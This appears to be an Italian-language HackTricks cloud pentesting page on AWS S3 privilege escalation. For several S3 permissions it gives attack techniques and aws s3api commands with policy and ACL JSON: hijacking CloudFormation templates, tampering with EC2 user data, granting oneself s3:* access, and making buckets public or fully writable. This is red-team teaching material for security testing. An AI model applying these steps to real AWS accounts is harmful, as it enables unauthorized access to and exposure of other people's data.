# AWS - S3 Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## S3

### `s3:PutBucketNotification`, `s3:PutObject`, `s3:GetObject`

Un attaccante con questi permessi su bucket interessanti potrebbe essere in grado di dirottare risorse ed elevare i privilegi.

Ad esempio, un attaccante con questi **permessi su un bucket di cloudformation** chiamato "cf-templates-nohnwfax6a6i-us-east-1" sarà in grado di dirottare il deployment. L'accesso può essere concesso con la seguente policy:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Action":[
"s3:PutBucketNotification",
"s3:GetBucketNotification",
"s3:PutObject",
"s3:GetObject"],
"Resource":[
"arn:aws:s3:::cf-templates-*\/*",
"arn:aws:s3:::cf-templates-*"]
},
{
"Effect":"Allow",
"Action":"s3:ListAllMyBuckets",
"Resource":"*"
}]
}
```
E l'hijack è possibile perché c'è un **breve intervallo di tempo dal momento in cui il template viene caricato** nel bucket al momento in cui il **template viene distribuito**. Un attaccante potrebbe semplicemente creare una **lambda function** nel suo account che si **attiva quando viene inviata una notifica del bucket**, e **hijack** il **contenuto** di quel **bucket**.

![](<../../../.gitbook/assets/image (174).png>)

Il modulo Pacu [`cfn__resouce_injection`](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#cfn__resource_injection) può essere utilizzato per automatizzare questo attacco.\
Per ulteriori informazioni, controlla la ricerca originale: [https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/](https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/)

### `s3:PutObject`, `s3:GetObject` <a href="#s3putobject-s3getobject" id="s3putobject-s3getobject"></a>

Queste sono le autorizzazioni per **ottenere e caricare oggetti su S3**. Diversi servizi all'interno di AWS (e al di fuori di esso) utilizzano lo storage S3 per memorizzare **file di configurazione**.\
Un attaccante con **accesso in lettura** a questi file potrebbe trovare **informazioni sensibili** in essi.\
Un attaccante con **accesso in scrittura** a questi file potrebbe **modificare i dati per abusare di qualche servizio e cercare di elevare i privilegi**.\
Ecco alcuni esempi:

* Se un'istanza EC2 sta memorizzando i **dati utente in un bucket S3**, un attaccante potrebbe modificarli per **eseguire codice arbitrario all'interno dell'istanza EC2**.

### `s3:PutBucketPolicy`

Un attaccante, che deve essere **dallo stesso account**, altrimenti si attiverà l'errore `The specified method is not allowed`, con questa autorizzazione sarà in grado di concedersi ulteriori autorizzazioni sui bucket, permettendogli di leggere, scrivere, modificare, eliminare ed esporre i bucket.
```bash
# Update Bucket policy
aws s3api put-bucket-policy --policy file:///root/policy.json --bucket <bucket-name>

## JSON giving permissions to a user and mantaining some previous root access
{
"Id": "Policy1568185116930",
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:root"
},
"Action":"s3:ListBucket",
"Resource":"arn:aws:s3:::somebucketname"
},
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:user/username"
},
"Action":"s3:*",
"Resource":"arn:aws:s3:::somebucketname/*"
}
]
}

## JSON Public policy example
### IF THE S3 BUCKET IS PROTECTED FROM BEING PUBLICLY EXPOSED, THIS WILL THROW AN ACCESS DENIED EVEN IF YOU HAVE ENOUGH PERMISSIONS
{
"Id": "Policy1568185116930",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Stmt1568184932403",
"Action": [
"s3:ListBucket"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome",
"Principal": "*"
},
{
"Sid": "Stmt1568185007451",
"Action": [
"s3:GetObject"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome/*",
"Principal": "*"
}
]
}
```
### `s3:GetBucketAcl`, `s3:PutBucketAcl`

Un attaccante potrebbe abusare di questi permessi per **concedersi più accesso** su specifici bucket.\
Nota che l'attaccante non deve essere dello stesso account. Inoltre, l'accesso in scrittura
```bash
# Update bucket ACL
aws s3api get-bucket-acl --bucket <bucket-name>
aws s3api put-bucket-acl --bucket <bucket-name> --access-control-policy file://acl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectAcl`

Un attaccante potrebbe abusare di questi permessi per concedersi un accesso maggiore su oggetti specifici all'interno dei bucket.
```bash
# Update bucket object ACL
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --access-control-policy file://objacl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectVersionAcl`

Un attaccante con questi privilegi dovrebbe essere in grado di impostare un Acl su una specifica versione dell'oggetto.
```bash
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --version-id <value> --access-control-policy file://objacl.json
```
{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
